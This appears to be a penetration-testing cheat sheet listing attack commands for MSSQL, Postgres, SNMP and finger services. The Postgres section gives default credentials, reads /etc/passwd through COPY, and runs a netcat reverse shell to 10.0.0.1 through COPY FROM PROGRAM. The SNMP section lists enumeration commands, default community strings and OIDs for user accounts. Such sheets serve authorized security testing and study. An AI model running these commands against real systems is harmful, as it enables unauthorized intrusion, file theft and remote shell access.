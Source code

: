 ## MSSQL
- Vulnerable Software
- Brute Force
- Default Credentials

## Postgres [Postgres Command Execution](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)
- Default Creds (postgres:postgres)
```
\l
\c <database>

# Read Files
CREATE TABLE read_files(output text);
COPY read_files FROM '/etc/passwd';
SELECT * FROM read_files;

# Command Exec
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f';
```

## SNMP
```
nmap -p 161 --script=snmp-info $ip default creds:/usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt
snmpwalk -c <community> -v1 <ip> 1.3.6.1.4.1.77.1.2.25 (enumerate users on windows machines)
snmpcheck -t <ip> -c <community>
snmpenum -t <ip>
onesixtyone -c <names> -i <hosts>  
snmpwalk -c <community strings> -v<version> $ip 1.3.6.1.2.1.25.4.2.1.2 snmp-check $ip
```
Default Community Names:

> $ public, private, cisco, manager

Enumerate MIB:
> $ 1.3.6.1.2.1.25.1.6.0 System Processes  
> $ 1.3.6.1.2.1.25.4.2.1.2 Running Programs  
> $ 1.3.6.1.2.1.25.4.2.1.4 Processes Path  
> $ 1.3.6.1.2.1.25.2.3.1.4 Storage Units  
> $ 1.3.6.1.2.1.25.6.3.1.2 Software Name  
> $ 1.3.6.1.4.1.77.1.2.25 User Accounts  
> $ 1.3.6.1.2.1.6.13.1.3 TCP Local Ports

## FINGER
```
finger-user-enum -U <username list> -t <host>
```
